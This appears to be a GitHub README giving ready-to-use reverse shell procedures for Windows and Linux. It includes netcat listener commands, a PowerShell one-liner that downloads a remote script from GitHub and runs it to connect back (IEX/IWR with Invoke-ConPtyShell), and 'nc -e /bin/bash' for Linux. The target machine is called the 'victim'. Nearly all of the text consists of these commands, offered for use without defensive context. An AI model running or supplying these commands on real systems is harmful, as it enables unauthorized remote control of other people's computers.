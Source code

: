 # Fully-Interactive-Reverse-Shell
## Netcat ~ "the Swiss army knife of networking"

## For Windows:

ConPtyShell- a Fully Interactive Reverse Shell for Windows systems.
## Requirements
Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)
Server Side: any tcp listener, i.e. netcat

#### Via Powershell
## Procedure-
#### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp "port" -s "ip"
```
```
example : stty raw -echo; (stty size; cat) | nc -lvnp 88 -s 10.0.0.2
```
#### Client Side:
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell "ip" "port"
```
```
example : IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.1 88
```
#### NOTE: 
For client/victim side~ Command should be initiated in powershell, not cmd

## For Linux
## Requirements
ClientSide : linux with netcat installed(most linux have nc)
ServerSide : any tcp listener like, i.e. netcat (prefered machine - Kali/Parrot OS)

Note: if client side netcat is not installed, use :
```
brew install netcat
```

#### For mac :
Use-
```
brew install netcat
```
#### Via terminal
## Procedure-
#### Server Side:
```
nc -lnvp "port" -s "ip"
```
#### Client Side:
```
nc -e /bin/bash "ip" "port"
```
## References

1. https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/
2. https://github.com/microsoft/terminal
3. https://www.usenix.org/conference/usenixsecurity20/presentation/niakanlahiji
4. https://adepts.of0x.cc/shadowmove-hijack-socket/

## THANK YOU
## Credit: 249KING
